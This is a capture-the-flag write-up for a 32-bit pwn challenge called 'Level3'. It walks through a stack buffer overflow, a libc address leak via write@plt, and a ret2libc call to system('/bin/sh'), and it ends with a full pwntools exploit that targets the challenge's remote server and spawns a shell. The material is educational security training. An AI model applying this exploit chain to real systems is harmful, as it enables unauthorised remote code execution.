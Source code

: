 # Level3

## Challenge

- This challenge gives us 2 files one is ELF 32-bit executables and other is dynamic library.
- To simply the task, I used IDA to disassemle the level3 binary file, which make it easier to see what the program is doing

```c
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 0x100u);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

## Overview & Idea

- Let's check the infomations of binary file

![img](/xctf/assets/file_check.png)

- The binary file has no stack protector, no PIE, so we can use BOF to overwrite ret of vulnerable_function with address of system() in libc to get shell.

## Detail

- First, I need to leak the address of write function (you can leak whatever function you want, the purpose of this stuff is find base address of libc). To do that, I must have to a call to write@plt and pass 3 parameter, param 1 is file descriptor, we want to print the address in screen so we put 1 in this param, param 2 is address of string which we'll put address of write@got.plt address that hold the current address of write in libc , param 3 is size of the string, the address is 4 bytes so we put value in this param is 4. To summary, we want to use write function to implement `write(1, write@got.plt, 4)` which will leak the address of write libc.

- The write@plt and write@got.plt I found

![img](/xctf/assets/print_write_libc.png)

- And we need the offset that we must overwrite to reach to the ret of vulnerable_function is `140 bytes`. This below is script that I use to leak write function address in libc

```python
padding = b"a"*140
vuln_addr = 0x0804844b
write_got_plt = 0x804a018
write_plt = 0x08048340

payload_1 = b""

payload_1 += padding
payload_1 += p32(write_plt)
payload_1 += p32(vuln_addr)     # After print the address, we return to vulnerable_funtion to implement get shell.
payload_1 += p32(0x1)
payload_1 += p32(write_got_plt)
payload_1 += p32(0x4)

leak = u32(p.recv(4))    # note: you need to check what output was printed to receive exactly the bytes of address
log.info(hex(leak))
p.recvline()
```

- After leaked the address, we need to calculate the current address of system function and "/bin/sh" string in program runtime by offset I found in given libc

```python
# offset
write_offset = 0xd43c0
sys_offset = 0x3a940
binsh_offset = 0x15902b

base_addr = leak - write_offset
sys_real = base_addr + sys_offset
binsh_real = base_addr + binsh_offset
```

- So we have enough material to get the shell. Let's do it!

## Exploit

```python
# file name: test.py

from pwn import *

p = remote("61.147.171.105", "62417")
#  elf = ELF("./level3_patched")
#  p = elf.process()
#  gdb.attach(p)


# necessary
padding = b"a"*140
vuln_addr = 0x0804844b
write_got_plt = 0x804a018
write_plt = 0x08048340

payload_1 = b""

payload_1 += padding
payload_1 += p32(write_plt)
payload_1 += p32(vuln_addr)
payload_1 += p32(0x1)
payload_1 += p32(write_got_plt)
payload_1 += p32(0x4)

p.recvline()
p.sendline(payload_1)

leak = u32(p.recv(4))
log.info(hex(leak))
p.recvline()

# offset
write_offset = 0xd43c0
sys_offset = 0x3a940
binsh_offset = 0x15902b

base_addr = leak - write_offset
sys_real = base_addr + sys_offset
binsh_real = base_addr + binsh_offset

payload_2 = padding
payload_2 += p32(sys_real)
payload_2 += b"aaaa"
payload_2 += p32(binsh_real)

p.sendline(payload_2)

p.interactive()
```

## Result

![img](/xctf/assets/result.png)


